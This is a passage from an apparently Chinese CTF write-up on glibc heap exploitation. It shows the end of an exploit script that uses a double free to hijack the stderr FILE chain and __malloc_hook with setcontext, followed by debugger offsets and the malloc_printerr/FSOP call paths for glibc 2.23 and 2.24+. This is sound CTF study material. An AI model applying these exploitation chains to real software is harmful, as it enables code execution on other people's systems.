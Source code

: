 ```php
new(0x31,p64(0) + p64(0x21) + '\x00'*0x18 + p64(0x21) + '\n') #1
free(1)
load(1)
free(1)
new(0x31,p64(0) + p64(0x21) + p64(libc_base + libc.sym['_IO_2_1_stderr_'] + 0x68) + '\n')
new(0x10,'FMYY\n')
new(0x10,p64(heap_base + 0x360) + '\n')
load(1)
load(2)
free(2)
new(0x31,p64(0) + p64(0x21) + p64(malloc_hook) + '\n')
new(0x10,'FMYY\n')
new(0x10,p64(libc_base + libc.sym['setcontext'] + 61) + '\n')   
z()
menu(4)

p.sendlineafter('Goodbye!',orw)
p.interactive()
```

### 调试记录手扎

环境配置的是glibc\_all\_in\_one下的2.31 9\_版本

主要是调一调看看运行流程  
下面是偏移，方便阅读的师傅调试

```php
exit：0x7ffff7dfe0b5
__run_exit_handlers：0x7ffff7e20bdb
_IO_cleanup：0x7ffff7e20b30
_IO_flush_all_lockp：0x7ffff7e6cf04    +136处把RBX赋值为stderr，stderr+0x68为chain的位置，可以double free劫持它到fake_io ; +225 把rax设置为rbx+0xd8
_IO_str_overflow：0x7ffff7e6ccaf rdi==rbx
malloc:0x7ffff7e6dba8 
```

0x03 malloc\_printerr劫持
=======================

一般是和unsorted bin attack结合起来用，触发malloc error来fsop

利用路径
----

2.23

malloc-&gt;\_int\_malloc-&gt;\_\_libc\_message-&gt;abort-&gt;\_IO\_flush\_all\_lockp-&gt;system('/bin/sh')

2.24及以后

malloc-&gt;\_int\_malloc-&gt;\_\_libc\_message-&gt;abort-&gt;\_IO\_flush\_all\_lockp-&gt;over\_flow-&gt;malloc\_hook-&gt;setcontext

